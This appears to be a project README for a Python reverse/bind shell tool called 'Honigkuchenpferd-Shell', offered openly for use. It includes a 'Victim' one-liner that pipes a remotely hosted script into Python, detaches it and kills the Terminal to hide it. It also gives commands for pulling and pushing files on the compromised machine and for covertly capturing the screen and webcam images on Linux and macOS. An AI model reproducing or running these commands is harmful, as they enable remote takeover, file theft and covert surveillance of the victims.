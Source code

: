 ![Screenshot](picture/hacking-is-bad-mmmkay.jpg)

# Honigkuchenpferd-Shell

free to use but doesn't mess up mmmkay !

Simple Reverse and Bind Shell

python2.7 and python3

## Server
```
/bin/python3 -m http.server 8080
```
```
/bin/python3 srv.py
```
## Victim
```
curl -s http://<IP>:8080/Honigkuchenpferd.py | /usr/bin/python  & disown; killall Terminal
```


## download File
```
[Honigkuchenpferd /home/Doofy/Dokumente/sus_stuff] download sus_text.txt
```
## upload File
```
[Honigkuchenpferd /home/Doofy/Dokumente/sus_stuff] upload sus_prog.bin
```


## ffmpeg:
### Screenshot
```
ffmpeg -f x11grab -framerate 1 -i :0.0 -vframes 1 screenshot.jpg
```
### Selfie
```
#Selfie
ffmpeg -f video4linux2 -s 640x480 -i /dev/video0 -ss 0:0:1 -frames 1 /tmp/selfie.jpg
```


## macOS:
### Screenshot
```
screencapture -x /tmp/screenshot.jpg
```
